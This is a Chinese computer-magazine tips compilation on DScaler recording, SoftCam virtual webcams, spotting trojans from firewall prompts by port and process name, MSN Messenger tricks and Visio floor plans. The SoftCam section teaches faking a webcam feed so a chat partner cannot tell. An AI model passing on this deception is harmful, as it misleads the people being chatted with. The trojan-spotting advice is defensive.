  问:我想录下在游戏中的通关过程，DScaler是如何实现的呢?
  答:点击菜单中的“操作→录像→录制”(或按Shift+R)，软件会开始进行录像，需要停止时，选择菜单项中的“操作→录像→停止”(或按Shift+S)即可，录制好的视频文件就保存在了软件安装目录下。文件扩展名为AVI，需要录制的是未经压缩的视频，文件体积较大，请确认硬盘有足够的空间。如果你需要修改文件保存的路径，同样需要点击“设置→高级设置”菜单项，在窗口左侧点击“视频转换设置”，在窗口右侧的“保存视频转换文件路径”即可。

（郭志虎）

## 巧用虚拟摄像头 视频聊天也要特效

大家有没有想和MM视频，自己却没有摄像头时，好言好语哄了半天，MM就是不接受视频邀请，这时该怎么办呢?现在你不必为这个苦恼了，只要用SoftCam，就能解决!而对于有摄像头的朋友，SoftCam也非常有用，它可以为你的摄像头添加动态前景效果。

## 菜鸟上手篇

可能还有不少读者还不会使用SoftCam，下面就以软件在QQ的设置方法为例，简单介绍一下使用方法。

第一步:从http://www.newhua.com/cfan/200516/SoftCam.rar下载SoftCam，完成安装。
第二步:打开QQ，点击“菜单”按钮，选择“工具→语音视频调节”，从“视频设备”下选择“Luminositi SoftCam [VFW]”(见图1)，之后一路点击“下一步”完成QQ视频设置即可。
第三步:这时再和其他好友视频时，就会弹出软件窗口，点击主窗口中的“内容”按钮，双击自己喜欢的内容项即可。

小提示
如果没有弹出窗口，可以右击任务栏的摄像机图标，选择“显示面板”即可。



## 高手进阶

实例1:默认时，SoftCam一启动会显示汉化作者的一张图片，为了不让其他人识破，需要对其进行修改。
进入软件安装目录，如C:\Program Files\Luminositi\SoftCam1.5\Media\Visual\Still\，该文件夹下保存着一些图片，其中SoftCam.bmp就是软件默认显示的图片，你可以用任意BMP代替该文件。这里建议使用一张全白或全黑的图片代替它，这样再进行视频时，会默认显示白(黑)屏，给你选择“内容”的时间。

实例2:怎么让好友看到动态的视频文件呢?
第一步:在SoftCam主界面上点击“设置”，点击“默认背景”下的三角按钮，选择“SoftCam 屏幕捕捉”。

小提示
★将光标定位至“默认背景”下的文本框，再点击三角按钮，就可以恢复“没有背景”的状态。
★如果点击三角按钮后，选择“Microsoft WDM Image Capture (Win32)”项，就可以使用软件内置的“内容”动态前景了。
第二步:点击“内容”按钮，选择任意内容(见图2)，这时桌面上就会出现SoftCam的屏幕捕捉框。在此区域中的内容也就是捕获窗口里的图像。

小提示
如果你要播放一些视频电影，则需要关闭视频加速:右击桌面空白处，选择“属性”，点击“设置”标签下的“高级”按钮，将“疑难解答”标签下的“硬件加速”设置为“无”。用完后，恢复为“全”即可。
现在，对方就可以在视频窗口中看到“你”了。



实例3:摄像头新增添加动态前景
第一步:点击“内容”按钮，点击“新内容”，开始新建内容。需要注意，SoftCam只能建立10个内容，当无法新建时，需要选择不用的内容，用“删除”按钮将其删除。
第二步:在“新内容”窗口下的“内容标签”中输入内容名称，在“主要显示”下选择一张背景透明的GIF动画文件，勾选“背景”，同时点击三角按钮，选择“Microsoft WDM Image Capture (Win32)”项，最后点击“确定”即可。

小提示
★透明的GIF动画文件在很多视频聊天网站上都有，大家可以搜索找到。你也可以从http://dlc.pconline.com.cn/filedown.jsp?id=62161&dltypeid=1及http://www.newhua.com/cfan/200516/tu.rar两处下载画框及动画文件。
★“背景”可以使用MPG、AVI、ASF等格式的媒体，但不如实例2中的方法简便，无法只显示部分视频。

（河北 黄昏雨）

## 防火墙的大门你到底为谁开？

在安装好网络防火墙后，就会不停弹出提示，询问用户应用程序到底应该不应该访问网络，对于高手这当然很好判断，但对于菜鸟应该怎么办呢？

防火墙就像电脑的一道安全门，决定其安全性能的有两个关键设置：一个是合理的IP规则配置，另外就是应用程序规则配置（也就是控制应用程序的网络访问）。对于IP规则来说，一套合理的配置方案可以让所有用户使用，而不必了解其原理。但IP规则对于主动连出的数据传输却难以控制，现在许多反弹端口型木马就是采用服务端主动请求连接客户端的方式进行控制的，使用IP规则就很难对其进行过滤。而通过应用程序规则配置就可以解决这些问题，它可以对应用程序的网络访问进行底层分析拦截，根据应用程序发送和接收的数据类型以及所打开的端口进行规则匹配，从而实现对特定应用程序的数据传输控制，特别是针对一些非法的木马后门程序特别有效。但当防火墙提示有应用程序要求访问网络时，是否允许它访问网络，就需要我们自行判断，这个程序是正常程序还是非法程序，这对于大部分的菜鸟朋友来说，是一个很难选择的问题。下面笔者就以天网防火墙的程序规则为例，介绍如何对应用程序进行分析判断。

小提示
天网防火墙默认设置下，任何应用程序只要向网络发送或接收数据，都会被天网防火墙首先截获分析，并弹出提示窗口，询问是通过还是禁止该程序访问网络。如果你的天网防火墙从来没有出现过这种提示，可以在天网防火墙主界面中单击“系统设置”按钮，取消“允许所有的应用程序访问网络，并在规则中记录这些程序”选项前的选择标记。

## 根据程序运行特征判断

### 1. 运行后有无反应
正常应用程序在运行后应该出现程序界面，或会在系统托盘增加图标，如果某个程序运行后没有任何反应，或运行后主程序也不见了，却见到防火墙弹出该程序要访问网络的提示，那这个程序多半有问题，有90%的可能就是木马后门类的非法程序，再结合后面的判断方法就一定可以确定它是不是正常程序。

### 2. 程序的“尾巴”要注意
正常应用程序对于网络的访问，应该是我们可知的和可控的，比如说刚运行了QQ进行登录，防火墙出现了QQ程序要访问网络的提示，这是正常的程序请求。但如果同时还会弹出另外的提示窗口说某某程序要访问网络，或者我们一直没有运行任何程序，却突然弹出提示说有程序要访问网络，那就要格外注意了，很可能是你使用的QQ程序被捆绑了其他的后门程序，或你的系统已经被植入了后门程序，并且可能正被别人控制。

## 根据端口判断

在天网提示窗口中的“网络信息”栏提供了应用程序的网络访问信息，包括协议、端口和地址（见图1），如何从这些信息中看出程序是否正常呢？
我们可以把网络中的任何一台计算机看作是一个独立的服务器，而计算机之间的数据传输可以看作是相互提供的一种服务，这个服务功能就是通过打开不同的端口来完成的，每个端口对应于该服务器提供的一种服务，通过不同端口，计算机就可以与外界进行互不干扰的数据传输。例如在网络中规定了网页浏览服务的端口为80，那么一台服务器要提供WEB浏览服务，就需要开放HTTP协议的80端口，而用户则需要打开本机的80端口来访问网页。而非法木马后门程序在和控制端进行数据传输时，也是需要在系统中打开端口的，不同的木马会打开不同的端口，这里笔者整理了一些端口定义速查表，其中包含有常见木马的端口号列表（下载地址：http://www.newhua.com/cfan/200516/dk.txt），我们可以根据天网防火墙提示的端口号在该文件中搜索，可判断出该文件是不是恶意的木马后门程序。如图1所示天网防火墙的提示窗口中，显示的端口号为“23444”，从速查表中可以判断出它很可能就是网络公牛（netbull）的服务端程序。不过现在大部分木马都具备修改端口号的功能，速查表中的木马端口定义也仅供参考，但根据笔者经验，通常我们遇到的木马多是使用默认端口的。



## 根据文件信息判断

仅凭端口信息判断程序是否正常虽然简单方便，但并不完全可靠，我们还应根据天网防火墙提示窗口显示的“文件信息”进行综合判断。

### 1. 文件图标判断法
人们对于图形的印象是比较深刻的，对于常见应用程序，我们通常很熟悉它的图标，再结合其文件路径，很容易识别出它的真假。一般来说，正常的应用程序都有正常图标，但一些非法后门程序就不一定了，像图1中的网络公牛使用的就是未定义文件类型图标，还有一些后门程序可能会使用文本文件图标、空白透明图标或者一些比较奇怪的图标，这时都要格外注意。当然也有一些后门程序会比较聪明，它们会使用和系统程序一样的图标，甚至和系统程序一样的文件名，企图蒙混过关，但只要细心观察，无论是它特殊的端口、还是奇怪的文件日期，都可以证明它是“冒牌”的！

### 2. 文件（进程）名判断法
注意这里的文件（进程）名不是天网防火墙提示窗口中的“名称”行，而是文件路径行中的原始文件名，也就是运行后的进程名。非法程序为了避免运行后在进程列表中的名称被别人识破，都会采用文件名欺骗手段，使用和系统常见程序进程相似的文件名，例如“Falling Star”木马服务端生成的文件名称“internet.exe”与输入法进程“internat.exe”十分相似，稍不注意就可能被骗！诸如此类的还有使用“msgsvc.exe”冒充“msgsrv32.exe”，使用“EXP1ORER.exe”冒充“EXPLORER.exe”的。另外还有修改扩展名冒充的，例如冰河木马的服务端进程名为“Kernel32.exe”，是不是很眼熟，好像是个正常的系统进程吧，其实系统中根本不存在这样一个文件，有个文件名称是“Kernel32.dll”。“Shell32.exe”也很熟悉吧？同样它也是从“Shell32.dll”演变而来的，实际上在系统中都是不存在的。

小提示
对于一些常见木马，天网防火墙会根据它所使用的端口号自动判断并提示出该木马的名称，例如冰河、NetSPY等，它都会在端口前面显示出该木马名称，这时要注意看清楚了再选择是允许还是禁止哦。

### 3. 文件路径判断法
文件路径指示了该程序所在位置，如果是合法的应用程序，通常会安装在C:\Program Files目录中，当然也有你自行定义的文件路径，但这种情况是你所知道的。有时我们会遇到一些来自于C:\Windows、C:\Windows\system32、C:\Windows\system目录的文件访问网络的防火墙提示，可能一些菜鸟朋友会说，这是系统程序，可以允许访问吧？不！相反，对于这些来自系统重要目录的应用程序，尤其要注意，很可能就是木马，因为狡猾的木马经常会利用我们这种认识蒙混过关。事实上，这些系统目录中的文件需要访问网络的情况并不多，而且正常的应用程序必须要安装文件到这些目录的情况也不多，那么应如何判断这些目录中的文件是不是非常法的木马程序呢？下面的文件属性判断法可以进一步确认。

### 4. 文件属性判断法
根据文件路径中的提示打开目录并找到要分析的文件，右键单击该程序文件，选择“属性”，再单击“版本”标签，可以看到该文件的版本、版权以及产品公司等信息，对于正常的应用程序这些信息通常是比较完整的，对于信息不完整的通常都要引起注意。而那些想冒充Windows系统文件的，例如图5中所示的“Internet.exe”，我们则可以打开一个正常的系统文件属性进行比对（见图2）。另外在“常规”选项卡中的文件创建日期也是非常重要的，可以查看是否与系统文件创建日期一样来进行判断。



最后要提醒朋友们的是，很多时候并不仅仅是靠某一个特性就能准确判断的，这就需要综合运行，加以判断，这不仅仅是技巧，也需要经验和知识，相信看了本文以后，你会对经常弹出的应用程序网络访问有个清晰的判断和选择。

（软件 DIY）## “入侵检测”防火墙的“好兄弟”

### 1. 什么是“入侵检测”？

不少网络管理员会编写一些完整性检查程序，用来监测入侵者攻击服务器的行为。还有一些网管经常去查看系统日志，去找那些失败的登录记录及其他错误记录。虽然这些方法对管理员非常有用，但要随时对其监控却非常困难。尤其是对于管理几百或上千台电脑的网管，这种工作量将非常巨大，于是就出现了“入侵检测”(IDS)。现在你应该知道，入侵检测用于检测有恶意的入侵者试图获得未授权访问的行为。它监视计算机系统或网络中发生的事件，并对它们进行分析，以寻找危及机密性、完整性、可用性或绕过安全机制的入侵行为。入侵检测系统就是自动执行这种监视和分析过程的软件或硬件产品。

### 2. “入侵检测”的目标

入侵检测起源于20世纪80年代末，当时美国国防部开发了入侵检测专家系统(IDES)和分布式入侵检测系统(DIDS)模型。现在，入侵检测系统几乎都有相同的目标，就是实现搜索入侵者过程的自动化。

### 3. “入侵检测”的分类

一般来说，“入侵检测”系统分为错用检测模型和基于异常的检测模型。而常见的是错用检测模型中的基于网络的入侵检测系统(NIDS)及基于主机的入侵检测系统(HIDS)。基于网络的入侵检测系统：主要用来检测网络中的数据包，并将其与某些已知的攻击模式和特征进行比较，类似于杀毒软件的特征码对比法。基于主机的入侵检测系统：通常是面向分析的系统，它包含有解析系统日志，查看用户登录和进程等各种组件。有些更内置了搜索特洛伊木马的功能。不过这种入侵检测系统大多是要在被保护的系统上安装一个程序，这也使得它的部署及管理的难度较大，但从某种程序上来说它保护的更加彻底。（瑞星工程师 史瑞）

## 实例1: 漂亮的MM请回家

- 第一步：首先登录到网页http://messenger.china.msn.com/download，如果还没有注册微软的Passport账号(使用MSN必须要有此账号)，可如图1所示，单击左侧“开始”按钮进行注册。注册Passport账号需要有邮件地址，选择上面“开始”可以免费获得一个Hotmail邮件地址，也可选择下面的“开始”用已有邮件地址注册。如果已经注册过Passport账户，则直接单击右侧的“下载”按钮下载并安装微软MSN Messenger 7.0(以下简称为MSN或MM)。



- 第二步：安装并第一次运行MSN，单击“登录”按钮，会弹出“.NET Passport向导”对话框，单击“下一步”，随后Windows会询问是否拥有电子邮件地址，选择“是，使用现有电子邮件地址”项，单击“下一步”，接下来询问是否已注册，选择“有，使用我的Passport Network凭据登录”项，继续单击“下一步”，填写在第一步中注册Passport账号所使用的邮件地址及密码，单击“下一步”，最后单击“完成”就可以登录MSN了(电脑需保持在线状态)。

- 第三步：现在你的MSN上还是空空如也，一个朋友也没有。没关系，下面就把朋友请进MSN。单击MSN下方的“添加联系人”(或执行“联系人→添加联系人”菜单命令)，在弹出对话框中选择常用的“根据电子邮件地址添加新联系人”项，单击“下一步”，输入好友MSN账号的电子邮件地址，再下一步就可以将好友添加到自己联系人名单中了(见图2)。重复这一步骤可添加多位好友的MSN账号。



- 第四步：当添加的好友登录他的MSN时，就会收到一个消息，同样，别人加你为好友时你也会收到这个消息的。默认选择“允许此人看到您联机并与您联系”项，确定即可。

**小提示** 把好友叫醒  
MSN 7.0增加了“传情动漫”功能，单击工具栏上的“传情动漫”按钮，就能给好友发送有声有色的动画表情了，非常有趣。另外，单击“闪屏振动”按钮(工具栏最右侧的那个图标)时，好友的MSN窗口会不停闪动以提醒有消息来了。当你连续点击“闪屏振动”时，MSN会提示“您不能频繁地发送闪屏振动”。如果想向好友连续发送闪屏振动直到叫醒他，可右击任务栏上MSN图标，执行“我的状态→忙碌”，在忙碌的状态中就可以给非“忙碌”状态的朋友连续发送闪屏振动了。

## 实例2: 五湖四海皆朋友

除了向别人索要MSN号添加好友外，也可以像在QQ中一样，从网上搜索添加陌生人为好友。

- 第一步：单击“添加联系人”，在打开的向导窗口中单击“在MSN成员目录中搜索联系人”，接着调整浏览器打开“MSN成员目录-高级搜索”网页。
- 第二步：在搜索网页中设置好你的要求，单击“搜索”按钮，MSN便会为你搜索到一大堆合适的好友。单击搜索到的好友昵称可以查看他(她)的详细资料，并可方便地向好友发送电子邮件来邀请。
- 第三步：如果你单击搜索网页上的“按兴趣浏览”，还会打开一个类似目录搜索引擎的网页，在这里，你可以按自己的兴趣爱好在全世界范围内寻找志同道合的朋友。

## 实例3: 个性MSN魅力四射

都“闯荡”五湖四海的人了，当然要把自己扮得酷一点，打造一个个性化的MSN才更能讨网友的喜爱。

- 第一步：让昵称动起来
是不是常常看到其他MSN好友的名字上会带有图标，甚至还有动态图标的，其实这个很容易实现：点击“工具→选项”命令打开选项窗口，单击左侧“个人信息”，再在右侧“我的显示名称”中为自己起一个酷酷的名字。如果在名字里面加上MSN的聊天表情代码，如“(sn)”(不含引号)，就会在用户名称里显示出一只蜗牛来，加上“<:o)”则会显示出一个不停吐舌头的笑脸符。查询MSN聊天表情代码，可执行“工具→我的图释”命令调出图释窗口查看。
- 第二步：不一样的头像不一样的你
MSN头像可以使用自己的个性化图片(不像QQ，还得花钱成为会员才能使用此功能)，这可是“脸面问题”自然不能马虎。在选项窗口“个人信息”中点击“更改图片”按钮，在“我的显示图片”中挑选一个图片即可。如果嫌软件自带的图片不好看，可点击“下载更多的图片…”链接来从微软的网站上下载动物、卡通、自然、科幻等多种个性化图片。也可以点击“浏览”按钮，挑选自己保存在硬盘中的图片(比如个人靓照)。
**小提示** ★快速改变自己MSN头像图片
你可以直接从资源管理器中将任意图像文件拖到自己MSN左上角的头像图片栏中，这时光标右下角会显示一个“+”号，松开鼠标就能快速更换自己的MSN头像了。
★网络帮你做超炫MSN头像图片
登录网页http://www.eooool.com/Default.aspx，然后点击“制作图标”按钮，在第二级页面中你可以选择“上传图片”来上传自己电脑中准备好的图片，也可选择网站图库图片，然后根据步骤提示对图片进行剪裁、添加文字、添加绚彩效果等，一幅漂亮的MSN专用头像便新鲜出炉了。单击“保存图片”可将做好的图片下载到本地电脑上。

- 第三步：在同一片蓝天下聊聊吧
单击工具栏中的“背景”按钮打开“我的背景”窗口，在这里可以为MSN窗口设置不同的背景图片。如果嫌MSN预置的图片不好看，可单击“我的背景”窗口中的“其他”按钮搜索更多的背景图片（包括你自己硬盘的图片）。单击“我的背景”窗口上的“共享当前背景”发出邀请，当对方好友接受后就可以将对方的MSN背景图片设置成和你一样的了，这样是不是找到了“在同一片蓝天下聊天”的感觉。

## 实例4: 轻轻松松成时尚“博客”

博客大潮一浪高过一浪，虽说现在免费博客满天飞，可想要找到一个稳定、高速、空间大的博客依然很困难。其实，只要是MSN用户，你就已经免费拥有一个微软为你提供的优质博客了。

- 第一步：点击MSN主界面上的“我的共享空间”按钮，这时会自动打开IE浏览器跳转到微软Spaces申请页面。
- 第二步：在申请页面中输入你的共享空间标题（如：“电爱FANS”），再输入你的共享空间的网址（URL），确定其有效后，选择时区为“GMT+08:00)北京，重庆，香港特别行政区，乌鲁木齐”并勾选“我接受共享空间服务协议”，最后点击“创建您的共享空间”按钮，出现“恭喜”页面后你就拥有你的共享空间了。
- 第三步：以后，只要单击MSN上的“我的共享空间”按钮便可直接进入你的Spaces页面。单击页面上的“网络日志”链接，在接下来的画面中再单击“添加项”，就可以书写你自己的博客日志了。输入完毕，可单击“预览网络日志项”进行预览，也可以直接单击“发布项”发布到网上。在Spaces共享空间，单击“照片”、“音乐”等链接还可以上传自己的图片及音乐等。
一旦更新了你的共享空间，你的MSN头像前就会显示出一个黄色的“*”号来。好友只要单击你的头像即可打开你的资料窗口，单击资料窗口上的链接就可以访问你的博客日志了。

## 实例5: MSN账号，想开几个开几个

众所周知，MSN同时只能开一个主窗口（聊天窗口则没有限制），如果你有好几个MSN账号（工作联系的、私人聊天的等），有没有办法能同时打开多个不同账号的主窗口呢？下面给你介绍的MSN插件，可以实现这一功能，做到工作、聊天两不误。

- 第一步：首先要下载两个软件工具: Messenger Plus!(下载地址: http://nj.onlinedown.net/soft/13198.htm) 和 StuffPlug-NG(下载地址: http://www.stuffplug.com)。一定要先装Messenger Plus!，然后再安装StuffPlug-NG。安装StuffPlug-NG时，语言要选择“Simplified Chinese”，这样它就会显示为汉化界面了。
- 第二步：安装完毕，MSN窗口上会多出一个“Plus!”菜单，单击它，选择“个人偏好设置”。在打开的配置窗口中单击左侧“插件”，选中StuffPlug-NG项，单击下面的“配置”按钮，在“主窗口”标签中选择“多开（允许同时运行多个MSN Messenger）”项后确定返回。
- 第三步：启动第二个MSN账号主窗口时，可执行“文件→登录”菜单命令，输入新的MSN账号及密码登录即可。

**小提示**  
监视MM是否在认真听你说话  
StuffPlug配置窗口中还有其他许多功能选项，比如大头像、大表情、取消只能传递3个文件的限制、将消息内容扩大到5000个字符等，有兴趣的朋友不妨多试试。如果选择了其中的“当联系人关闭对话时显示提示信息”项，重新登录MSN时，如果聊天过程中好友关闭了和你聊天的窗口，它就会给你发出提示信息。这样你就能判断对方是否在跟你认真聊天了。

## 实例6: 让MSN聊天有声有色

上例中，StuffPlug-NG只是Messenger Plus!的一个插件，而Messenger Plus!本身也具有许多有趣的功能，比如它能够发送各种情感声音表情，令聊天的过程有声有色。

- 第一步：安装Messenger Plus!后，它在聊天窗口的左侧会增加两个图标，如图4所示，单击小喇叭图标，点选相应的情感声音表情，对方就能听到有趣的问候声了。



- 第二步：软件内置的声音表情都是英文的，你可以单击情感声音表情窗口下面的“添加/编辑/删除声音”，打开自定义情感声音窗口；单击“添加新声音”按钮就可以根据向导一步一步制作自己的声音表情了。

**小提示**  
单击新增加的“Plus!”菜单，选择其下的“配置向导”，然后根据向导一步一步设置，可以让你的即时聊天变得更有趣、更令人愉快，比如加密聊天纪录、自动接受联系人的各种请求、让经常联系的好友浮动在桌面上等。单击“Plus!→日程”还能定时给你发送提醒呢。

## 实例7: 找个机器人当翻译

没有MSN好友是件很无聊乏味的事，自己孤零零地一个人呆在网上，没有人说话，真是寂寞透顶，不过你可以添加几个MSN机器人来解解闷。所谓MSN机器人，实际上就是一些能自动应答你提问的软件程序。这些软件程序同样拥有MSN账号，你只需像添加一般的好友一样添加它就可以了。

- 第一步：在MSN主窗口上单击“添加联系人”（或执行“联系人→添加联系人”菜单命令）打开向导窗口，选择“根据电子邮件地址创建新的联系人”项后单击“下一步”，在接下来的窗口中输入在线词典机器人的MSN账号: dictcn009@hotmail.com。连续单击“下一步”、“完成”结束添加。
- 第二步：这个在线词典机器人可以进行英汉双向翻译，你输入英文单词，它就会回复你汉语的意思，你输入汉语词汇，它就回复你相应的英文单词。

**小提示**  
现在网上这类的MSN机器人有很多，比如还有一款聪明、活泼、人见人爱的机器人小I (xiao372@hotmail.com)，跟它聊天，还可以帮助你查询天气、列车时刻、讲笑话、成语接龙、智力闯关、查IP地址、查手机号码等（要得到这些服务你只需要输入一个问号“?”便可）。网页http://www.it.com.cn/f/edu/048/4/14051.htm上面列了不少国内、外的MSN机器人信息，大家也可以在搜索引擎网站搜索到更多的MSN机器人信息。

## 实例8: 视频聊天与好友开心“见面”

常听老鸟说：“聊天用QQ，视频换MSN。”看来MSN视频聊天必定有过人之处，质量一定非常好，下面我们来体验一下吧。

- 第一步：先安装摄像头附带的驱动程序，接着再将其接到电脑的USB接口上，启动MSN。双击自己MSN好友头像打开聊天窗口，点击工具栏上的“网络摄像机”按钮，如果是第一次使用MSN视频聊天，点击此按钮时便会弹出“音频和视频调节向导”（见图9），在此向导中依次点击“下一步”按钮来选择自己使用的网络摄像机、麦克风和扬声器设备等，并按照屏幕要求朗读文字以帮助MSN校正你的声音。
- 第二步：执行“工具→网络摄像机设置”菜单命令，在弹出的“摄像机设置”对话框中可以对“亮度、对比度、饱和度”等进行设置，拖动窗口右侧的滑钮，可以在左侧的预览框中即时观看效果，笔者建议大家将亮度稍微调亮些。调整到满意后，单击“关闭”返回。
- 第三步：以后再用MSN和好友聊天，只要直接单击“网络摄像机”按钮，就可以实现“天涯共此时”，面对面聊天了。

### ★CFan版之MSN大补贴

MSN的功能和使用技巧非常多，本刊以前的内容中陆陆续续也有过不少介绍，现在就让我们一起来回顾一下吧。

| 期号/页码 | 文章名 |
| --- | --- |
| 1/60 | 我的昵称要抢夺你的眼球 |
| 6/62 | 微软Spaces: 分享空间 分享生活 |
| 9/61 | 新的MSN Messenger 我还要你更个性! |
| 11/57 | MSN 7.0不能传EXE文件了? |
| 11/61 | 我为MSN Messenger添风采——画说MSN Shell 4.1 |
| 13/58 | 我的MSN Space就是比你酷 |

### ★生来就是过客？

小编做完这期稿件的时候，恰逢微软推出了最新的MSN测试版。新版为何不是8.0而称之为7.5？看来这个版本如同Windows ME一样，注定只是一个过渡版本了，不过试用了一下之后，感觉该版本还是有可圈可点之处：

MSN Messenger 7.5 Beta登录窗口布局做了较大调整，登录界面选项也多了很多，满足用户更多需要，同时在风格上也向下一代操作系统Windows Vista靠近。

主程序界面上将“添加联系人”按钮上移到好友栏顶端，更加方便操作。新的聊天窗口非常简洁且增添了更多娱乐因素，比如加入了动态聊天背景（场景）的支持，还可在聊天窗口按下F2键来录制并发送自己的语音剪辑，有点类似腾讯的“QQ对讲机”功能。

增强MSN聊天安全性，在“工具→选项”的“安全”标签中增添“允许发送、接收并 在计算机上暂时存储语音剪辑”和“允许在对话窗口中显示链接”等选项，使用MSN聊天更安全。

(河北 闫艳力 北京 一页)

### Office错误代码轻松查

在使用微软Office办公软件时，或由于Office软件本身BUG，或操作不当，会导致一些错误发生。如果出错时有文字说明还好办一些，如果是以数字代码的形式给出的提示，一般用户肯定会丈二和尚摸不着头脑的。有鉴于此，微软推出了一个错误代码查找工具，对近8000个错误代码进行了详细归类，有的还给出了解决办法。

- 第一步：首先到http://download.microsoft.com/download/0/e/d/0eda9ae6-f5c9-44be-98c7-ccc3016a296a/ork.exe下载微软软件工具包并安装。
- 第二步：进入软件安装目录，双击打开其Customizable Alerts子目录下的Errormsg.xls工作簿文件。这个文件中按照Office组件分为Word、Access、Powerpoint、Excel、Outlook及Office Shared等几个工作表，每个工作表都由错误ID号以及描述文字两部分构成。比如在使用Word的时候，如果出现代号为“95”的错误，则表示没有足够的内存或磁盘空间来运行拼写检查（见图）。
有了它的帮助，查找Office错误就方便多了，从而能够对症下药予以修复。不过它的解释都是英文的，英语不好的朋友还需要一些翻译软件的帮忙，如东方快车、金山快译等。大家还可以借助本期《西游后记之Excel函数篇（四）》一文中的技巧，为它添加上方便的查询功能。

(辽宁 于海军)

## 抢抢抢学 Visio 打造美丽新生活

Visio 是一款非常特别的矢量绘图软件，它的核心是把各种数据资料转换为图形，让流程可视化。通过它可以轻松建立流程图、组织结构图、营销图、建筑设计图、地图、时间表等各种类型的图表。把特定的图表插入文件，让商业沟通变得更加清晰，令演示更加有趣，使复杂过程变得简单，文档重点更加突出，使你的工作在一种可视化的交流方式下变得更有效率。

### 实战：我的房子我做主

我叫John，北京人。拥有一份不错的工作。因此，尽管北京房价居高不下，但我还是凭借自己的努力买到了自己中意的房子。虽然装修公司可以帮助设计房屋，不过我的房子我做主，我更愿意完全按照自己的意愿来布局设计。其实这也没这么难的了，只要有想法，通过Visio就可一切搞定。如图1所示，是本例的最终效果图，很漂亮吧。同样，你也可以用下面的方法设计公司的办公室呢。(注意：本文图片仅为示例，主要目的只是为了讲解Visio的使用方法)



- 1. 第一步：要想用Visio绘制出精美的室内设计图，首先要先画出房屋的实地图。因此，必须要进行实地测量。一定要带上卷尺、计算器、纸、笔等物品，并随时记录。如果感觉太累人，也可以向开发商直接索要图纸，不过实地房屋与开发商图纸上的大小可能有偏差哦。
- 2. 第二步：选择“开始→程序→Microsoft Office→Microsoft Office Visio 2003”启动它，在打开的主界面左侧单击“建筑设计图”类别，再在右侧单击选择“家居规划”(或执行“文件→新建→建筑设计图→家居规划”菜单命令)，Visio将会自动生成一个绘图文件。单击工具栏上的“保存”按钮，将其保存为“装修设计图.vsd”文件。
- 3. 第三步：首先要将户型的大致轮廓勾画出来。将从开发商处得到的户型图样扫描进电脑，然后在Visio中执行“插入→图片→来自文件”命令将其导入，拖动图片四周的绿色节点调整好图片大小。这个图片仅是用来参考的。单击左侧“墙壁、外壳和结构”按钮将其展开，拖动其下的“空间”图标到页面上可得到一个矩形，拖动空间矩形四周的绿色节点可以随意调整它的大小。如果要旋转空间矩形的角度，可将光标移到最上面的绿色节点上，此时光标变成旋转的箭头，拖动鼠标就可以旋转图形了。以同样方法多放置几个空间矩形，将房屋的轮廓勾画出来，几个矩形彼此重叠在一起也没关系。最后点选先前导入的参考图，按Del键删除它，此时页面上的图形将如图2所示。


- 4. 第四步：按Ctrl键不放并依次点击所有的空间矩形，全部选中它们，然后右击图形，在右键菜单中选择“联合”，则所有矩形合并成一体了。右击合并后的图形，选择“转换为墙壁”，打开如图3所示的对话框。因为是外围轮廓，所以这里选“外墙”，对原始图形则作“删除”处理，另外你也可以根据需要选择是否添加尺寸或参考线标示。设置好后按“确定”，则刚才的图形就转换为墙体轮廓了。



- 5. 第五步：外墙建好后，接着是添加内墙及门窗，将房屋的格局定下来。在左侧“墙壁、外壳和结构”中，拖动“墙”到页面上。这些墙实际上就是一些直线而已，先将起点定好位置，然后拖动另一个端点就可以随意调整内墙的长度及方向了。Visio中还带有多种类型的“门”组件，这些门是以弧形图案来表示的，旋转到相应的墙体位置上，再拖动门两边的节点可调整门的大小。窗户的安装方法与此类似，不再细说。

**小提示**  
将门窗对象拖放到墙体下，它们会自动调整方向以与墙体吻合。右击门或窗体对象，从右键菜单中分别选择“向左打开/向右打开”或者“向里打开/向外打开”，可以调整门窗的打开方向。

- 6. 第六步：在放置各种家具前，先给房间铺上地板砖，也就是给房间填充上地板砖图形。因为Visio自带的填充样式太过简单，需要自己定义一些新的填充样式。
  1. 执行“视图→绘图资源管理器”命令，在打开的资源面板上右击其中的“填充图案”文件夹，在右键菜单中选择“新建图案”命令，在随之打开的新建对话框上，为新图案取一个名称(如：地板砖01)，行为选择“平铺”(即点选左侧第一个图标)，取消对“按比例缩放”项的选择，单击“确定”返回。
  2. 此时“填充图案”文件夹下将多出一项“地板砖01”，双击它进入该模具的编辑窗口。如图6所示，在装修设计图左侧单击展开“绘图工具形状”，将其下的“矩形”拖放到“地板砖01”模具编辑窗口上，将其调整为正方形。右击正方形，选择“格式→填充”打开填充对话框，单击“颜色”下拉按钮可将地板砖设置成你喜欢的颜色(见图4)。
  3. 单击“地板砖01”模具编辑窗口右上角的“X”按钮关闭它，将弹出对话框询问是否更新图形，单击“是”确定即可。以同样方法可以建立多种地板砖模具，并且你也可以通过“插入→图形→来自文件”命令导入实际地板砖图片作模具。最后，单击资源管理器左下角的“X”按钮关闭它返回Visio主界面。



- 7. 第七步：接下来就可以放置各种家具了。Visio提供了许多家具模具，直接将它们拖放到房间适当的位置，并调整好大小、方向即可。比如要放置一个客厅沙发，可单击左侧“家具”将其展开，拖动“长沙发椅”到客厅中，拖动绿色节点调整好沙发的长短大小，再将光标移到沙发的控制点上(即上面那个绿色圆点)，此时光标变成旋转的箭头，拖动鼠标即可旋转沙发的方向了，最后将调整好的沙发拖到房间适当的位置即可。Visio中图形组件大多数是由多个简单图形组合而成的，右击沙发图形，选择“形状→取消组合”命令，会弹出对话框提示你将切断该图形与主控图形的链接，单击“是”将图形打散，然后再分别选取沙发的外框图形及沙发里子图形，右击，选择“格式→填充”调出填充对话框，为沙发的各个组件设置不同的颜色。这一方法同样适合其他图形组件。
- 8. 第八步：Visio中自带了家具、家电、厨卫用品、庭院附属设施等组件，一应俱全，按前面方法，直接拖放使用即可。如果Visio中没有你想要的图形，可自己通过“绘图工具形状”中的自行创建，或通过插入外部图形的方法解决。在安排家具位置时，如果图形之间互相重叠，可右击图形对象，选择“形状→置于顶层(或置于底层)”命令进行调节。本例放置好家具后的最终效果如本文开始处的图1所示。

**小提示**  
打造一个现代智能家庭  
